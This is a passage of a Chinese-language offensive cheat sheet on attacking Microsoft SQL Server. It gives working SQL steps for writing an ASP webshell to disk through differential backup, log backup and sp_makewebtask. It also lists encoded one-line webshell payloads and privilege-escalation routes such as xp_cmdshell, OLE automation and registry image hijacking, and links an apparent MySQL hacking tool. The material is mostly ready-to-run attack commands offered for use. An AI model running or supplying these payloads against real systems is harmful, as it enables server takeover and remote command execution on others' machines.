 工具：
- https://github.com/T3st0r-Git/HackMySQL  
- mysql脚本等附件

# 0x02 MsSql
## Ⅰ Getshell
差异备份：
```
dbo和sa权限都有备份数据库权限，我们通过差异备份，生成恶意asp文件，之后可以获得shell。
操作：
IF EXISTS(select table_name from information_schema.tables where table_name='dtest') drop table dtest;  //查看要创建的临时表是否被占用
backup database 库名 to disk = "目标文件路径.bak";
create table [dbo].[dtest] ([cmd] [image]);
insert into dtest(cmd) 
values(0x3C25657865637574652872657175657374282261222929253E);  //<%execute(request("a"))%>
backup 
database 库名 to disk='目标位置\hack.asp' WITH DIFFERENTIAL,FORMAT;
```
log备份：

```
log备份生成小马文件小，成功率大，拿到db权限后可以尝试。
操作：
IF EXISTS(select table_name from information_schema.tables where table_name='temp') drop table temp;
alter database 数据库名称 set RECOVERY FULL;
create table temp (a image);
backup log db_name to disk = '任意绝对路径.bak' with init;
insert into temp (a) values (<%%25Execute(request("hack"))%%25>);
backup log db_name to disk = '绝对路径.asp';

other_values:
- <%%25Execute(request("hack"))%%25> 
- <%Execute(request("hack"))%> 
- %><%execute request("hack")%><% 
- <script language=VBScript runat=server>execute request("hack")</Script> 
- <%25Execute(request("hack"))%25> 
- 0x3C25657865637574652872657175657374282261222929253E
```
sp_makewebtask写文件：

```
sa权限，SQL Server2008不可用，SQL Server2000可用
操作：
exec sp_configure 'show advanced options',1;
RECONFIGURE;
exec sp_configure 'Web Assistant Procedures',1;
RECONFIGURE;
exec sp_makewebtask 'C:\hack.php','select"<%execute(request("hack"))%>"';
```
另外xp_cmdshell和OLE（sp_oacreate/sp_oamethod）相关既可以用来提权也可以用来写文件，不再赘述。
## Ⅱ mssql提权
常见方式：
-   xp_cmdshell  //执行系统层面的命令
- 	OLE->sp_oacreate/sp_oamethod  //执行系统层面的命令
- 	沙盒模式 + xp_regwrite/xp_reread + openrowset  //读写注册表
- 	注册表映像劫持
- 	wscript.shell
- 	Shell.Application
- 	agent job
- 	public